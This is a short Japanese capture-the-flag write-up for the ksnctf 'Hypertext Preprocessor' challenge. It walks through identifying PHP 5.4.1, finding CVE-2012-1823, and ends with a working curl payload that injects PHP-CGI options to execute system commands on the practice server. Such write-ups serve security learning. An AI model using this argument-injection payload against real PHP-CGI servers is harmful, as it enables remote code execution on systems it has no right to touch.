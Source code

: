## ksnctf

### Hypertext Preprocessor 70pt
https://ksnctf.sweetduet.info/problem/12

* keywrods
  - Web、PHP
* 解法
  - ページ開いてみる
  - 何度か更新すると時間っぽい
  - でもよく分からん
  - 2012から始まっていてさらによく分からないのでぐぐる
  - [CVE-2012-1823]( https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2012-1823 )という脆弱性が見つかる
    - PHP 5.4.2より前で存在する脆弱性らしい
    - [徳丸浩の日記: CGI版PHPにリモートからスクリプト実行を許す脆弱性(CVE-2012-1823)]( https://blog.tokumaru.org/2012/05/php-cgi-remote-scripting-cve-2012-1823.html )
    - [もっとも悪用されたPHPの脆弱性CVE-2012-1823を検証する]( https://www.youtube.com/watch?v=XiIPXQX8RRU&feature=emb_title )
  - `$ curl -v http://ctfq.sweetduet.info:10080/~q12/` してみると `X-Powered-By: PHP/5.4.1` というヘッダーがレスポンスにあるので上記脆弱性がありそう
  - ということでこの脆弱性を使ってみる
    - 試しにまず `?-s` を付けてみる
      - `curl -v "http://ctfq.sweetduet.info:10080/~q12/?-s"` か直接アクセス
      - ソースが見れて、このディレクトリにflagの情報があることがわかる
    - 最終的には以下をやる
      ```bash
      $ curl -v --data-binary "<?php system('cat flag_flag_flag.txt');?>" "http://ctfq.sweetduet.info:10080/~q12/?-d+allow_url_include%3Don+-d+auto_prepend_file%3Dphp://input"
      ```
